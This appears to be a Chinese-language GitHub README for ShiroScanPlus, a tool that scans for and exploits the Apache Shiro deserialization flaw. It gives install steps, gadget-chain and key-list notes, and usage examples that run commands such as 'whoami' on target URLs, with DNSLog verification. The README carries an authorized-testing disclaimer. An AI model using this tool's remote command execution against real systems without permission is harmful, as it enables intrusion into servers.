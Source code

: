 # ShiroScanPlus
ShiroScan_Plus是基于sv3nbeast/ShiroScan改进的增强版的Shiro反序列化一键检测工具

![](data/1.png)
 
## 声明
* 不推荐当做exp使用，效率问题。  
* 仅供安全人员验证,测试是否存在此漏洞。  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) ，勿用于非授权的测试，本人不负任何连带法律责任。**  

## 新改动内容
1. 更正requirements，优化代码规范和逻辑问题，优化代码结构。 
2. 采用两种扫描模式，fast优先检测key，但漏报率特别高。full直接发送全部key的全部利用链，资源消耗大，准确度高。  
3. 如果full模式过慢，可以手动调整data/keys.txt中的内容。
4. 用[**Koalr**](https://github.com/zema1) 的利用链 CommonsCollectionsK1到K4替代CommonsCollections1到7
5. 为了Windows用户方便安装pycrypto，requirements_windows.txt中采用了pycryptodome==3.9.8
6. 增加参数解析，增加DNSLog验证、URL文件批量处理、输出到文件等功能，多个功能可以配合使用。  
7. 移除原作者新加的30个key，移除一个重复key，保留20个key。

## 原改动内容  

1. 新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
2. 增加多线程，虽模块增加但速度却提高300%
3. 集成51个key进行fuzz  
4. 输入命令自动进行bash编码，防止未了解此漏洞的人踩坑  

## 使用方法  
**运行环境为Python3**
```
* Windows安装依赖：pip install -r requirments_windows.txt  
* Linux安装依赖：pip install -r requirments_linux.txt  
* 获取帮助：python3 shiro_rce_plus.py --help
```

```
* 使用示例     
* Example：python3 shiro_rce_plus.py --mode fast --url https://url.com --command "whoami"
* Example: Python3 shiro_rce_plug.py --mode full --file urls.txt --command "whoami"
* Example: Python3 shiro_rce_plug.py --mode fast --verify --file urls.txt --dnslog "{randstr}.testdnslog.com"  
            --check "http://check.testdnslog.com/{randstr}/"  --flag "True"  
            --output res.txt
```  

## 帮助信息
```
* python3 shiro_rce_plus.py --help  
 ____  _     _          ____                  ____  _
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __ |  _ \| |_   _ ___
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \| |_) | | | | / __|
 ___) | | | | | | | (_) |__) | (_| (_| | | | |  __/| | |_| \__ \
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|_|   |_|\__,_|___/

                           原作者： 斯文
                           修改：  Hack3rHan

usage: shiro_rce_plus.py [-h] [--mode {fast,full}] [--url URL] [--file FILE] [--command COMMAND] [--verify]
                         [--output OUTPUT] [--dnslog DNSLOG] [--flag FLAG] [--check CHECK]

optional arguments:
  -h, --help          show this help message and exit
  --mode {fast,full}  fast:快速扫描，先检测Key，准确度很差。| full:扫描全部利用链和全部Key的组合。
  --url URL           待检测单个URL。
  --file FILE         待检测URL文件，换行分割。
  --command COMMAND   要执行的命令。
  --verify            使用DNSLog验证。
  --output OUTPUT     输出到文件，文件不存在会自动创建。
  --dnslog DNSLOG     待触发的DNSlog URL，若存在{randstr}会被format。
  --flag FLAG         DNSlog检查页面包含的关键词。
  --check CHECK       检查DNSlog是否触发的URL，若存在{randstr}会被format。
```
## 其他
* 新利用链来自[**Koalr**](https://github.com/zema1) 的https://mp.weixin.qq.com/s/jV3B6IsPARRaxetZUht57w  
* 如果有帮助，请点个star哦，对应blog文章：http://www.svenbeast.com/post/tskRKJIPg/
* http://www.dnslog.cn/  验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

